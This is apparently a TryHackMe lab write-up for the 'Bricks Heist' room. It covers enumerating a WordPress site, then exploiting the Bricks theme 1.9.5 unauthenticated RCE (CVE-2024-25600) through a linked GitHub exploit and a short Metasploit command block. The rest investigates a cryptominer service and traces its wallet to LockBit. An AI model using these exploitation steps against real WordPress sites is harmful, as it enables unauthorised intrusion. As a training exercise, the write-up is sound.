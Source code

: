 ```yaml
---
title: 'TryHackMe: TryHack3M: Bricks Heist'
author: AmcaQt
categories: [TryHackMe]
tags: [Web, Enumeration, RCE]
render_with_liquid: false
media_subpath: /images/thm_bricks_heist/
image:
  path: room_card.png
---
```


![Tryhackme Room Link](room_image.PNG){: width="600" height="150" .shadow }
_<https://tryhackme.com/r/room/tryhack3mbricksheist>_

## Description

Brick Press Media Co. was working on creating a brand-new web theme that represents a renowned wall using three million byte bricks. Agent Murphy comes with a streak of bad luck. And here we go again: the server is compromised, and they've lost access.

Can you hack back the server and identify what happened there?

Note : Add `MACHINE_IP bricks.thm` to your /etc/hosts file.

## Question & Flag

### What is the content of the hidden .txt file in the web folder?

First, before do further enumaration, let's run the basic scan with nmap

![Nmap Scan](scan.PNG)

Interesting find here, without wasting any time let's look further with [**WpScan**](https://www.kali.org/tools/wpscan/)

![](2.PNG)

The scan shows the site using Theme `bricks` with version `1.9.5`, after some research and finding we found the version is Vuln to Unauthenticated RCE

![Remote Code Execution](3.PNG)

The exploit and cve for the version is on github but i want to use metasploit to speed up the exploit
> https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT

Power up your msfconsole and search for bricks, you shall find the matching modules

![](4.PNG)

simply use command use 0 and fill in the require and you shall get the shell

![](5.PNG)

```Command
set LHOST 10.8.58.21
set RHOSTS https://bricks.thm
set RPORT 443
run
```

with that you may find the answer for Task 1

![](6.jpg)

### What is the name of the suspicious process? & What is the service name affiliated with the suspicious process?

For this one go to google and do some research about it , then you'll found the command

![](systemctl.PNG)

get back to the terminal and try out the command

![](7.PNG)

but this is not the answer, let's try view the content of the service

![](8.jpg)

That's what we want

### What is the log file name of the miner instance?

Notice that the service is executing from `/lib/NetworkManager/` directory, go to that directory

![](9.jpg)

### What is the wallet address of the miner instance? & The wallet address used has been involved in transactions between wallets belonging to which threat group?

Using the strings on the log file that we view earlier, try to decode with [**CyberChef**](https://gchq.github.io/CyberChef/)

![](10.PNG)

kinda lost on what that is, but since we searched about wallet address so i did some research

![](wallet.PNG)

so i need to confirm it, go to [**Blockchair**](https://blockchair.com/) , lucky it was the correct one, so i went down to the last payment received

![](11.PNG)

Inside that transaction history and from there, inside the privacy check

![](12.PNG)

We can see the details on the transaction

![](13.PNG)

Copy the sender address and search it on google, most of the result return `LockBit`

> Source :
> 
> https://ofac.treasury.gov/recent-actions/20240220
>
> https://www.chainalysis.com/blog/lockbit-takedown-sanctions-february-2024/

## Conclusion 

This was fun Room and good for beginner to learn about `CVE` and how risky Outdated version of CMS such as `WordPress`.

# Happy Hacking

![Cute Gif](https://i.pinimg.com/originals/c6/ad/84/c6ad8481cee4f75d464b2a14040d06c9.gif)

